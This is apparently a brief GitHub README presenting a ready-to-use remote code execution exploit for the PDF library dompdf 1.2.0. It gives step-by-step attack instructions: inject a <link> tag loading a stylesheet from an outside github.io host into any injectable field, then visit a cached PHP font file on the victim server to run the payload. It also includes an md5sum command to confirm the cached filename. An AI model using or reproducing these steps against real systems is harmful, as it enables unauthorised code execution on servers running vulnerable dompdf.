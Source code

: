 # Live RCE exploit for dompdf 1.2.0

1. Use the following <link> tag in any injectable field: 
   - `<link rel=stylesheet href='https://abhishekg999.github.io/dompdf/exploit.css'>`
2. Navigate to `http://[VICTIM_HOST]/dompdf/lib/fonts/exploitfont_normal_de7ec71473780093df11e62fab83211f.php`
3. Profit?


The hash should be correct, you can verify the hash yourself:
```console
user@console:~$ echo -n [PHP_PAYLOAD_URL_AT_IT_IS_IN_THE_CSS_FILE] | md5sum
de7ec71473780093df11e62fab83211f  -
```
